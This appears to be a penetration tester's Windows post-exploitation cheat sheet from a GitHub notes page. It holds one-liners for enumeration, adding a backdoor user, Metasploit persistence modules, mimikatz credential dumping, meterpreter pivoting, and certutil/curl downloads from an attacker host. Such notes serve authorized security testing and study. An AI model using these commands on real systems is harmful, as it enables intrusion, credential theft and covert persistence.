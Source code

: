 <details>
  <summary></summary>
    <br>
</details>

<details>
  <summary>Enumeration</summary>
    <br>
  
 [JAWS](https://github.com/411Hall/JAWS)
  
  
    Recently accessed files and executed commands

    type C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt 


List of installed patches

    wmic qfe get Caption,Description,HotFixID,InstalledOn
 
 
Network connections

    netstat -r    # route info
    
    netstat -ano  # connections and the PID
    
    route print
    
    
Processes
 
     tasklist 

Arp table

    arp -a
</details>

<details>
  <summary>Maintain persistance</summary>
    <br>
    
     - Add user
  
        net user <username> <pass> /add

  - Metasploit
  
        exploit/windows/local/persistence
        
        exploit/windows/local/registry_persistence

        run persistence -h

  - Set a scheduled task

    
</details>

<details>
  <summary>Pivilege escalation</summary>
    <br>
    
[mimikatz](https://github.com/Kahvi-0/Tools-and-Concepts/blob/master/Windows/Mimikatz.md)

  - Need process with permissions to be able to interact with the running lsass.exe process
    -  ran as NT AUTHORITY\SYSTEM
    -  Must be same arch as the lsass.exe running on the target
    
 [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
    
-------------------------------------------------------------------------------------

- [Nishang repo](https://github.com/samratashok/nishang)

  

Auto finding exploits based on system information and installed patches
 
    cmd.exe /c systeminfo > systeminfo.txt

    ./winpwnSuggester.py --update

    ./winpwnSuggester.py --database YYYY-MM-DD-mssb.xls --systeminfo ~/sysinfo.txt
  
    [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)


Meterpreter exploit suggester module

    post/multi/recon/local_exploit_suggester


-------------------------------------------------------------------------------------

[Token impersonation](https://github.com/Kahvi-0/Vulnerabilities-and-Exploitations/blob/master/Local/Token%20Impersonation.md)

</details>

<details>
  <summary>Pivoting</summary>
    <br>

**Egrees firewall testing:**

 If python is useable: 
 
    https://github.com/stufus/egresscheck-framework
    
 If python is not useable and powershell is: 
 
     powershell.exe Get-Alias -Definition Invoke-WebRequest | Format-Table -AutoSize
     
     powershell.exe curl http://<ip>:<port>/x
     
     
     
 If pwnd target has a connection to a network that we do not have a connection to, we can set up a route on the machine to forward our traffic 
 
   - Meterpreter 
   
         run autoroute -s <target network seen via enumeration>/CIDR
         
         run autoroute -p   #to confirm
         
       you can now test by pinging a device on the remote network

</details>

<details>
  <summary>Methods to upload files to/from target</summary>
    <br>

    curl http://<ip>:8000/<file> -O <file>
    
    certutil.exe -urlcache -f http://<ip>:8000/<remotefile> <save filename>
    
    Naviage directly through browser 
    
    ftp <ip>   #On attacker machine: python -m pyftpdlib 21  

    upload  #If using meterpreter

</details>

